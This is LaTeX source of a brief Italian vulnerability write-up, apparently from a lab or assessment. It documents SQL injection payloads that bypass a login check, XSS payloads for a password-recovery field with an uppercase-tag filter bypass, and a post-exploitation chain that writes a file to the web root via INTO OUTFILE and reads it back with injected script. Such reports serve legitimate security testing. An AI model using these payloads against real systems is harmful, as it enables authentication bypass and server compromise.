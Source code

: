 \documentclass[12pt]{article}
\begin{document}
\section{Exploitation}
    La SQL Injection nella procedura di login \`{e} possibile utilizzando "'" 
    (apice singolo), in questo modo \`{e} possibile modificare la query che viene 
    eseguita per il controllo delle credenziali.\\ 
    Possibili esempio PoC:\\
    \begin{enumerate}
        \item \textbf{username}: \texttt{' UNION SELECT null, null, user() \#} \\
        \textbf{password}: \texttt{valore qualsiasi} \\
        \item \textbf{username}: \texttt{' OR null is null limit 1 \#} \\
        \textbf{password}: \texttt{valore qualsiasi} \\
    \end{enumerate}
    
    Il XXS nella procedura di password recovery \`{e} possibile utilizzando i tags
    \texttt{<SCRIPT>} o \texttt{<IMG>} (i nome dei tags devo essere MAIUSCOLI). \\
    Possibili esempi di PoC:
    \begin{enumerate}
        \item \textbf{Email address}: \texttt{<SCRIPT>alert('Hello')</SCRIPT>}
        \item \textbf{Email address}: \texttt{<IMG SRC="pic/1.jpg">}
    \end{enumerate}

\section{Post Exploitation}

\texttt{' or null is null INTO OUTFILE '/var/www/html/TEST.txt' \#} \\
\texttt{<SCRIPT>function test(){fetch('TEST.txt').then(response => response.text()).then(data => alert(data))}test();</SCRIPT>}

\dots
\end{document}
